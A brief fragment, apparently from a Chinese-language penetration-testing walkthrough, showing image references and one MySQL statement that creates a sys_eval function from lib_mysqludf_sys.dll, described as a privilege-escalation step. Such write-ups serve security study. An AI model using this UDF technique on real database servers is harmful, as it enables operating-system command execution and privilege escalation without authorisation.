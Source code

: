 ![Alt text](image-56.png)   
![Alt text](image-58.png)   
创建 `sys_eval`函数，进行提权。   
```mysql
 create function sys_eval returns string soname 'lib_mysqludf_sys.dll';
```